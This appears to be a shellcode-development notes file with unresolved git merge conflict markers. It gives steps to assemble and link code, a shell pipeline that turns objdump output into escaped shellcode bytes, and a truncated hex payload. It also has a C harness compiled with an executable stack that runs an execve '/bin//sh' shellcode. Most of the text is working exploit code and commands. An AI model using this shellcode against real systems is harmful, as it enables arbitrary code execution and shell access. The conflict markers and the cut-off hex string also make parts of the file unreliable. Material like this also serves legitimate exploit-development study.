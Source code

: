 # 1. Compile assembly into machine code
nasm -f elf64 shell.asm

# 2. Link Dependency
ld -d shell.bin shell.o

# 3. Build shell code from a compiled binary
objdump -d shell.bin | grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
alias shellcode='grep '"'"'[0-9a-f]:'"'"'|grep -v '"'"'file'"'"'|cut -f2 -d:|cut -f1-6 -d'"'"' '"'"'|tr -s '"'"' '"'"'|tr '"'"'\t'"'"' '"'"' '"'"'|sed '"'"'s/ $//g'"'"'|sed '"'"'s/ /\\x/g'"'"'|paste -d '"'"''"'"' -s |sed '"'"'s/^/"/'"'"'|sed '"'"'s/$/"/g'"'"''

```binary
\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x
```

# 4. Shell code is ready. Can be tested in a C program


# References
[]

<<<<<<< HEAD
# Using Ausyscall linux command to find syscall number
ausyscall exit 
> Will return 60



## JCP Technique
Jump Call & Pop techique

# Python string to bytecode :
python -c 'import binascii; print(binascii.hexlify(b"/bin//sh"[::-1]))'
=======
# Test with c++ program
g++ -w -fpermissive -z execstack stdin.cpp  -o stdin


#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
>>>>>>> f1040148b2c904f8c416317d11e74087144b175a
